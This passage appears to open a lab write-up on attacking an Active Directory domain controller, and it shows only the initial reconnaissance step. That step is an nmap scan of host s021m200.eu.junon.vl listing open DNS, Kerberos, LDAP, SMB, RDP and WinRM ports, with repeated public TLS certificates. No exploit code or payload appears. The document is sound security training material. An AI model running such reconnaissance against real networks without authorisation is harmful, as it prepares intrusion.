




# Initial Enumeration

As usual I will perform a full enumeration of all the TCP ports and I can immediately see this is the other DC for the European realm?

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-03-30 08:10:42Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: eu.junon.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=s021m200.eu.junon.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:s021m200.eu.junon.vl
| Issuer: commonName=eu-S021M200-CA/domainComponent=eu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-30T03:49:02
| Not valid after:  2027-03-30T03:49:02
| MD5:     994a 64e0 7f85 2dbd 99d9 cef5 71c0 f4cd
| SHA-1:   68df f930 c262 f932 b9ec 86ab c6df 4819 bf39 b1e8
| SHA-256: 4294 d336 bb87 c0b9 9e5a caed f016 2ead 4a66 8dfe af8d 1f32 71fb 6f0c 3bc2 50b1
| -----BEGIN CERTIFICATE-----
| MIIGTzCCBTegAwIBAgITcQAAAATUVLcYICKEaQAAAAAABDANBgkqhkiG9w0BAQsF
| ADBYMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVqdW5vbjES
| MBAGCgmSJomT8ixkARkWAmV1MRcwFQYDVQQDEw5ldS1TMDIxTTIwMC1DQTAeFw0y
| NjAzMzAwMzQ5MDJaFw0yNzAzMzAwMzQ5MDJaMB8xHTAbBgNVBAMTFHMwMjFtMjAw
| LmV1Lmp1bm9uLnZsMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA2K/p
| FAiIOxLddJqhByUx9GNB73kvrDlUSJZ+TBVdHPPWLl4NCmv3zQKqTLgeZJ3gj9Q5
| LfBaeA92S2uYHqa8lnOAoP5iHdg0APgLtVMk3F8ZxIlv2AMsXqZrLc9j8XN5+3ef
| o2DYFw9cuwH5knBs35+2iFmE1NSh98QJffh1PdVwsA1vb+bEe7umiusc3cq9cDPJ
| gcQpwkstttSCQoO8rzVsLlU72CT+Hc33YCymFKz6pgVSrwxcRtBYzAhHKp803iA7
| jI/BvwsMWyv6hylXgFY/8FxY+nvgESs24Vov4/PvMkdtsMKu4/qiIypRzhdMrhXR
| L7Mj+fxhilvBnbHIaQIDAQABo4IDSTCCA0UwLwYJKwYBBAGCNxQCBCIeIABEAG8A
| bQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMC
| BggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggq
| hkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgB
| ZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG
| 9w0DBzAdBgNVHQ4EFgQUMmEEhraAu0rRDo5nLHRzJ7/ROWAwHwYDVR0jBBgwFoAU
| uKWyyJFefy9sVOVVz/TTXzGZmhwwgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxk
| YXA6Ly8vQ049ZXUtUzAyMU0yMDAtQ0EsQ049czAyMW0yMDAsQ049Q0RQLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9ZXUsREM9anVub24sREM9dmw/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlz
| dD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHDBggrBgEF
| BQcBAQSBtjCBszCBsAYIKwYBBQUHMAKGgaNsZGFwOi8vL0NOPWV1LVMwMjFNMjAw
| LUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNl
| cyxDTj1Db25maWd1cmF0aW9uLERDPWV1LERDPWp1bm9uLERDPXZsP2NBQ2VydGlm
| aWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAG
| A1UdEQQ5MDegHwYJKwYBBAGCNxkBoBIEEBdOheYkGrNJlgFEsYBbODmCFHMwMjFt
| MjAwLmV1Lmp1bm9uLnZsME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAv
| BC1TLTEtNS0yMS0yNjM0OTc2Nzg1LTE0MjQ1MjE3NTUtNzkxOTE2ODQxLTEwMDAw
| DQYJKoZIhvcNAQELBQADggEBADPc3yi0S0mV0cXOc7PMXyfz17R+GCSDjXTBj0qr
| tYwBU9BPVK3ytnedLm5ZcKsH6eQwwgIKyS7b75A27G39QIIOq7oQQ7977Bq3PoME
| r+DHY9CrrW3+9UxLztmfqcz8OsaPzdIUIY0M4RiqR2SmP2Qi+Cpc0WGytiauZVMD
| mx5O7jDBt2/mfsGH+aYWb4tdF0Lr2gf6m7aznHYxGhv5woRRTD2CNUs9gEyyEv/4
| Esq99tK9vzWygbmd0kJzGbTIOnl7pZOjUuo0RBk5ZiTGOtI+VYSTumKrD5sN9PfP
| 7SNuPVAIqqYxO4bTIIRSY1ZalkDcoSGbQb/AysfGB5DZDCk=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: eu.junon.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=s021m200.eu.junon.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:s021m200.eu.junon.vl
| Issuer: commonName=eu-S021M200-CA/domainComponent=eu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-30T03:49:02
| Not valid after:  2027-03-30T03:49:02
| MD5:     994a 64e0 7f85 2dbd 99d9 cef5 71c0 f4cd
| SHA-1:   68df f930 c262 f932 b9ec 86ab c6df 4819 bf39 b1e8
| SHA-256: 4294 d336 bb87 c0b9 9e5a caed f016 2ead 4a66 8dfe af8d 1f32 71fb 6f0c 3bc2 50b1
| -----BEGIN CERTIFICATE-----
| MIIGTzCCBTegAwIBAgITcQAAAATUVLcYICKEaQAAAAAABDANBgkqhkiG9w0BAQsF
| ADBYMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVqdW5vbjES
| MBAGCgmSJomT8ixkARkWAmV1MRcwFQYDVQQDEw5ldS1TMDIxTTIwMC1DQTAeFw0y
| NjAzMzAwMzQ5MDJaFw0yNzAzMzAwMzQ5MDJaMB8xHTAbBgNVBAMTFHMwMjFtMjAw
| LmV1Lmp1bm9uLnZsMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA2K/p
| FAiIOxLddJqhByUx9GNB73kvrDlUSJZ+TBVdHPPWLl4NCmv3zQKqTLgeZJ3gj9Q5
| LfBaeA92S2uYHqa8lnOAoP5iHdg0APgLtVMk3F8ZxIlv2AMsXqZrLc9j8XN5+3ef
| o2DYFw9cuwH5knBs35+2iFmE1NSh98QJffh1PdVwsA1vb+bEe7umiusc3cq9cDPJ
| gcQpwkstttSCQoO8rzVsLlU72CT+Hc33YCymFKz6pgVSrwxcRtBYzAhHKp803iA7
| jI/BvwsMWyv6hylXgFY/8FxY+nvgESs24Vov4/PvMkdtsMKu4/qiIypRzhdMrhXR
| L7Mj+fxhilvBnbHIaQIDAQABo4IDSTCCA0UwLwYJKwYBBAGCNxQCBCIeIABEAG8A
| bQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMC
| BggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggq
| hkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgB
| ZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG
| 9w0DBzAdBgNVHQ4EFgQUMmEEhraAu0rRDo5nLHRzJ7/ROWAwHwYDVR0jBBgwFoAU
| uKWyyJFefy9sVOVVz/TTXzGZmhwwgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxk
| YXA6Ly8vQ049ZXUtUzAyMU0yMDAtQ0EsQ049czAyMW0yMDAsQ049Q0RQLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9ZXUsREM9anVub24sREM9dmw/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlz
| dD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHDBggrBgEF
| BQcBAQSBtjCBszCBsAYIKwYBBQUHMAKGgaNsZGFwOi8vL0NOPWV1LVMwMjFNMjAw
| LUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNl
| cyxDTj1Db25maWd1cmF0aW9uLERDPWV1LERDPWp1bm9uLERDPXZsP2NBQ2VydGlm
| aWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAG
| A1UdEQQ5MDegHwYJKwYBBAGCNxkBoBIEEBdOheYkGrNJlgFEsYBbODmCFHMwMjFt
| MjAwLmV1Lmp1bm9uLnZsME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAv
| BC1TLTEtNS0yMS0yNjM0OTc2Nzg1LTE0MjQ1MjE3NTUtNzkxOTE2ODQxLTEwMDAw
| DQYJKoZIhvcNAQELBQADggEBADPc3yi0S0mV0cXOc7PMXyfz17R+GCSDjXTBj0qr
| tYwBU9BPVK3ytnedLm5ZcKsH6eQwwgIKyS7b75A27G39QIIOq7oQQ7977Bq3PoME
| r+DHY9CrrW3+9UxLztmfqcz8OsaPzdIUIY0M4RiqR2SmP2Qi+Cpc0WGytiauZVMD
| mx5O7jDBt2/mfsGH+aYWb4tdF0Lr2gf6m7aznHYxGhv5woRRTD2CNUs9gEyyEv/4
| Esq99tK9vzWygbmd0kJzGbTIOnl7pZOjUuo0RBk5ZiTGOtI+VYSTumKrD5sN9PfP
| 7SNuPVAIqqYxO4bTIIRSY1ZalkDcoSGbQb/AysfGB5DZDCk=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: eu.junon.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=s021m200.eu.junon.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:s021m200.eu.junon.vl
| Issuer: commonName=eu-S021M200-CA/domainComponent=eu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-30T03:49:02
| Not valid after:  2027-03-30T03:49:02
| MD5:     994a 64e0 7f85 2dbd 99d9 cef5 71c0 f4cd
| SHA-1:   68df f930 c262 f932 b9ec 86ab c6df 4819 bf39 b1e8
| SHA-256: 4294 d336 bb87 c0b9 9e5a caed f016 2ead 4a66 8dfe af8d 1f32 71fb 6f0c 3bc2 50b1
| -----BEGIN CERTIFICATE-----
| MIIGTzCCBTegAwIBAgITcQAAAATUVLcYICKEaQAAAAAABDANBgkqhkiG9w0BAQsF
| ADBYMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVqdW5vbjES
| MBAGCgmSJomT8ixkARkWAmV1MRcwFQYDVQQDEw5ldS1TMDIxTTIwMC1DQTAeFw0y
| NjAzMzAwMzQ5MDJaFw0yNzAzMzAwMzQ5MDJaMB8xHTAbBgNVBAMTFHMwMjFtMjAw
| LmV1Lmp1bm9uLnZsMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA2K/p
| FAiIOxLddJqhByUx9GNB73kvrDlUSJZ+TBVdHPPWLl4NCmv3zQKqTLgeZJ3gj9Q5
| LfBaeA92S2uYHqa8lnOAoP5iHdg0APgLtVMk3F8ZxIlv2AMsXqZrLc9j8XN5+3ef
| o2DYFw9cuwH5knBs35+2iFmE1NSh98QJffh1PdVwsA1vb+bEe7umiusc3cq9cDPJ
| gcQpwkstttSCQoO8rzVsLlU72CT+Hc33YCymFKz6pgVSrwxcRtBYzAhHKp803iA7
| jI/BvwsMWyv6hylXgFY/8FxY+nvgESs24Vov4/PvMkdtsMKu4/qiIypRzhdMrhXR
| L7Mj+fxhilvBnbHIaQIDAQABo4IDSTCCA0UwLwYJKwYBBAGCNxQCBCIeIABEAG8A
| bQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMC
| BggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggq
| hkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgB
| ZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG
| 9w0DBzAdBgNVHQ4EFgQUMmEEhraAu0rRDo5nLHRzJ7/ROWAwHwYDVR0jBBgwFoAU
| uKWyyJFefy9sVOVVz/TTXzGZmhwwgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxk
| YXA6Ly8vQ049ZXUtUzAyMU0yMDAtQ0EsQ049czAyMW0yMDAsQ049Q0RQLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9ZXUsREM9anVub24sREM9dmw/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlz
| dD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHDBggrBgEF
| BQcBAQSBtjCBszCBsAYIKwYBBQUHMAKGgaNsZGFwOi8vL0NOPWV1LVMwMjFNMjAw
| LUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNl
| cyxDTj1Db25maWd1cmF0aW9uLERDPWV1LERDPWp1bm9uLERDPXZsP2NBQ2VydGlm
| aWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAG
| A1UdEQQ5MDegHwYJKwYBBAGCNxkBoBIEEBdOheYkGrNJlgFEsYBbODmCFHMwMjFt
| MjAwLmV1Lmp1bm9uLnZsME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAv
| BC1TLTEtNS0yMS0yNjM0OTc2Nzg1LTE0MjQ1MjE3NTUtNzkxOTE2ODQxLTEwMDAw
| DQYJKoZIhvcNAQELBQADggEBADPc3yi0S0mV0cXOc7PMXyfz17R+GCSDjXTBj0qr
| tYwBU9BPVK3ytnedLm5ZcKsH6eQwwgIKyS7b75A27G39QIIOq7oQQ7977Bq3PoME
| r+DHY9CrrW3+9UxLztmfqcz8OsaPzdIUIY0M4RiqR2SmP2Qi+Cpc0WGytiauZVMD
| mx5O7jDBt2/mfsGH+aYWb4tdF0Lr2gf6m7aznHYxGhv5woRRTD2CNUs9gEyyEv/4
| Esq99tK9vzWygbmd0kJzGbTIOnl7pZOjUuo0RBk5ZiTGOtI+VYSTumKrD5sN9PfP
| 7SNuPVAIqqYxO4bTIIRSY1ZalkDcoSGbQb/AysfGB5DZDCk=
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: eu.junon.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=s021m200.eu.junon.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:s021m200.eu.junon.vl
| Issuer: commonName=eu-S021M200-CA/domainComponent=eu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-30T03:49:02
| Not valid after:  2027-03-30T03:49:02
| MD5:     994a 64e0 7f85 2dbd 99d9 cef5 71c0 f4cd
| SHA-1:   68df f930 c262 f932 b9ec 86ab c6df 4819 bf39 b1e8
| SHA-256: 4294 d336 bb87 c0b9 9e5a caed f016 2ead 4a66 8dfe af8d 1f32 71fb 6f0c 3bc2 50b1
| -----BEGIN CERTIFICATE-----
| MIIGTzCCBTegAwIBAgITcQAAAATUVLcYICKEaQAAAAAABDANBgkqhkiG9w0BAQsF
| ADBYMRIwEAYKCZImiZPyLGQBGRYCdmwxFTATBgoJkiaJk/IsZAEZFgVqdW5vbjES
| MBAGCgmSJomT8ixkARkWAmV1MRcwFQYDVQQDEw5ldS1TMDIxTTIwMC1DQTAeFw0y
| NjAzMzAwMzQ5MDJaFw0yNzAzMzAwMzQ5MDJaMB8xHTAbBgNVBAMTFHMwMjFtMjAw
| LmV1Lmp1bm9uLnZsMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA2K/p
| FAiIOxLddJqhByUx9GNB73kvrDlUSJZ+TBVdHPPWLl4NCmv3zQKqTLgeZJ3gj9Q5
| LfBaeA92S2uYHqa8lnOAoP5iHdg0APgLtVMk3F8ZxIlv2AMsXqZrLc9j8XN5+3ef
| o2DYFw9cuwH5knBs35+2iFmE1NSh98QJffh1PdVwsA1vb+bEe7umiusc3cq9cDPJ
| gcQpwkstttSCQoO8rzVsLlU72CT+Hc33YCymFKz6pgVSrwxcRtBYzAhHKp803iA7
| jI/BvwsMWyv6hylXgFY/8FxY+nvgESs24Vov4/PvMkdtsMKu4/qiIypRzhdMrhXR
| L7Mj+fxhilvBnbHIaQIDAQABo4IDSTCCA0UwLwYJKwYBBAGCNxQCBCIeIABEAG8A
| bQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMC
| BggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggq
| hkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgB
| ZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG
| 9w0DBzAdBgNVHQ4EFgQUMmEEhraAu0rRDo5nLHRzJ7/ROWAwHwYDVR0jBBgwFoAU
| uKWyyJFefy9sVOVVz/TTXzGZmhwwgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxk
| YXA6Ly8vQ049ZXUtUzAyMU0yMDAtQ0EsQ049czAyMW0yMDAsQ049Q0RQLENOPVB1
| YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRp
| b24sREM9ZXUsREM9anVub24sREM9dmw/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlz
| dD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHDBggrBgEF
| BQcBAQSBtjCBszCBsAYIKwYBBQUHMAKGgaNsZGFwOi8vL0NOPWV1LVMwMjFNMjAw
| LUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNl
| cyxDTj1Db25maWd1cmF0aW9uLERDPWV1LERDPWp1bm9uLERDPXZsP2NBQ2VydGlm
| aWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAG
| A1UdEQQ5MDegHwYJKwYBBAGCNxkBoBIEEBdOheYkGrNJlgFEsYBbODmCFHMwMjFt
| MjAwLmV1Lmp1bm9uLnZsME4GCSsGAQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAv
| BC1TLTEtNS0yMS0yNjM0OTc2Nzg1LTE0MjQ1MjE3NTUtNzkxOTE2ODQxLTEwMDAw
| DQYJKoZIhvcNAQELBQADggEBADPc3yi0S0mV0cXOc7PMXyfz17R+GCSDjXTBj0qr
| tYwBU9BPVK3ytnedLm5ZcKsH6eQwwgIKyS7b75A27G39QIIOq7oQQ7977Bq3PoME
| r+DHY9CrrW3+9UxLztmfqcz8OsaPzdIUIY0M4RiqR2SmP2Qi+Cpc0WGytiauZVMD
| mx5O7jDBt2/mfsGH+aYWb4tdF0Lr2gf6m7aznHYxGhv5woRRTD2CNUs9gEyyEv/4
| Esq99tK9vzWygbmd0kJzGbTIOnl7pZOjUuo0RBk5ZiTGOtI+VYSTumKrD5sN9PfP
| 7SNuPVAIqqYxO4bTIIRSY1ZalkDcoSGbQb/AysfGB5DZDCk=
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EU-JUNON
|   NetBIOS_Domain_Name: EU-JUNON
|   NetBIOS_Computer_Name: S021M200
|   DNS_Domain_Name: eu.junon.vl
|   DNS_Computer_Name: s021m200.eu.junon.vl
|   DNS_Tree_Name: eu.junon.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-30T08:11:35+00:00
|_ssl-date: 2026-03-30T08:12:15+00:00; +5s from scanner time.
| ssl-cert: Subject: commonName=s021m200.eu.junon.vl
| Issuer: commonName=s021m200.eu.junon.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-29T03:57:41
| Not valid after:  2026-09-28T03:57:41
| MD5:     0372 b8ce ef8e 2f19 e589 80a0 5458 a6da
| SHA-1:   c3a7 0d9f 091b 4f7a f1ab d129 55cd c643 7c67 0cfc
| SHA-256: d9e1 c799 da98 fb72 adb0 bf65 4608 acf2 5331 2031 a8ea 94f5 cdd3 55f4 472e 90d2
| -----BEGIN CERTIFICATE-----
| MIIC7DCCAdSgAwIBAgIQbHbBDBa9oYZNcQkO5I0gcDANBgkqhkiG9w0BAQsFADAf
| MR0wGwYDVQQDExRzMDIxbTIwMC5ldS5qdW5vbi52bDAeFw0yNjAzMjkwMzU3NDFa
| Fw0yNjA5MjgwMzU3NDFaMB8xHTAbBgNVBAMTFHMwMjFtMjAwLmV1Lmp1bm9uLnZs
| MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1RwAjWNwRLhTuDXjGLyf
| 0SQXLFsCbGX5UCHAvBrPqM6bDlG+xWesIqKvUS3CU0S4ObuInPydtpFWevZrfNbW
| ol0hXWaT5o67XcUOcXlfk9ZFIbg8eXSn/hsc4+FnnZHgDmNUNOB9psXDedaJxA6U
| x2zXxjip08/cDfjmnGZaaqToGrcaoUpYwKkcWqx0QQofChlEOWnHXgOMUx8JhsAD
| xwVcUNLdvdHrZcmtZ3SAedtwR1aKCUCe5v0t6kzWF9uH6Y3hlcs4RbavF6nbIqpm
| RPd3Kvi3eviE1whFdLdeV80466iH5Y3R36lBevPwmgUW+nZFoGyockg8LssPViFP
| aQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJ
| KoZIhvcNAQELBQADggEBACZbuRYiWLiiJUi5lxQoT3jteKf23A6y86SFoWXbapcH
| o5wPvQuskWN75OSqG5Iq/iLaPOSRHJaGwt23iflspiUSpjuUs02ZooDSHm2QzJDh
| SWraNNcG81sUUcvdqNuEbgnF/oZxhK7aSqMJTTPlBjP7e3orEApZw45FU8aYjafY
| Me2YrWNXLI5N18OqZSRhuA01rjlq5P+spCtpnXihTWSTca4d4EeEuH7b3+QQqVMu
| 9X2b15ypDjRz9Pj2FgWhCcKXrEo9ZCqHsq/raSsRHsXnj4HEeByc9XeG+Kllp7PM
| B97fLT7PxdpWKEmiDMcxkqovpwdY2cVvq9puqeCoIz8=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49699/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/30%OT=53%CT=%CU=%PV=Y%G=N%TM=69CA305C%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=107%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=103%GCD=1%ISR=10F%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
